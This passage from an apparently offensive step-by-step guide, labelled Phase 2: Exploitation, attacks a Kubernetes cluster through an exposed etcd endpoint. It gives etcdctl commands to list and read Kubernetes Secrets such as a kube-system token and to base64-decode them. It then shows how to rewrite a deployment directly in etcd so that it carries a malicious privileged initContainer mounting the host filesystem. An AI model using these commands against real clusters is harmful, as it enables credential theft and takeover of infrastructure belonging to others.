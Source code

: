 **Step 4: Verify Access (If Connection Successful)**

If either Step 2 or 3 succeeds (i.e., returns a list of keys or a successful health check), you have confirmed direct access to etcd.  Proceed to Phase 2 (Exploitation).

### Phase 2: Exploitation - Enumerating and Exploiting Data

**Step 5: Enumerate Kubernetes Secrets**

```bash
# Retrieve Kubernetes Secrets stored in etcd.  This requires direct access to etcd.
etcdctl --endpoints=http://<etcd_ip>:<etcd_port> get /kubernetes.io/secrets --prefix --keys-only
```

*   **Explanation:** This command retrieves the keys associated with Kubernetes Secrets stored in etcd. The `/kubernetes.io/secrets` prefix is used to filter the results. Adjust the endpoint as needed based on TLS requirements.
*   **Why:**  Secrets often contain sensitive information, such as API keys, passwords, and other credentials.
*   **Expected Output:** A list of keys corresponding to Kubernetes Secrets.
*   **Contribution:**  Identifies the presence of Secrets within etcd.

**Step 6: Retrieve the Contents of a Secret (Example: kube-system/generic-token-abcde)**

```bash
# Replace with an actual secret key obtained from the previous step.
etcdctl --endpoints=http://<etcd_ip>:<etcd_port> get /kubernetes.io/secrets/kube-system/generic-token-abcde
```

*   **Explanation:** This command retrieves the value associated with a specific Kubernetes Secret key.  Again, adjust the endpoint based on TLS.
*   **Why:** This allows viewing the contents of the Secret, revealing potentially sensitive data.
*   **Expected Output:** A JSON or YAML representation of the Secret data, including the `data` field, which contains the base64-encoded secret values.
*   **Contribution:** Allows exfiltration of sensitive data stored within the secret.

**Step 7: Decode the Secret Data (Example - Base64)**

```bash
# Assuming the 'data' field contains a base64-encoded token:
echo "<base64_encoded_token>" | base64 --decode
```

*   **Explanation:** This command decodes the base64-encoded data retrieved from the Secret.
*   **Why:** The data within the `data` field of a Secret is typically base64 encoded. Decoding it reveals the actual value.
*   **Expected Output:** The decoded secret value (e.g., a Kubernetes service account token).
*   **Contribution:** Reveals the plaintext value of the secret.

**Step 8: Modify Kubernetes Objects (Example - Change a Deployment)**

```bash
# **DANGEROUS: Proceed with extreme caution. Modifying etcd directly can destabilize the cluster.**
# Retrieve the existing Deployment data (e.g., nginx deployment in default namespace)
etcdctl --endpoints=http://<etcd_ip>:<etcd_port> get /kubernetes.io/deployments/default/nginx > nginx_deployment.json

# **Offline manipulation:**
# Edit nginx_deployment.json to add a malicious initContainer or modify existing configuration.
#  For example: Add a privileged initContainer to mount the host's filesystem.

# Put the modified data back into etcd.
etcdctl --endpoints=http://<etcd_ip>:<etcd_port> put /kubernetes.io/deployments/default/nginx "$(cat nginx_deployment.json)"

# Verify the changes (through kubectl or by observing the deployment).
kubectl get deployment nginx -o yaml
```

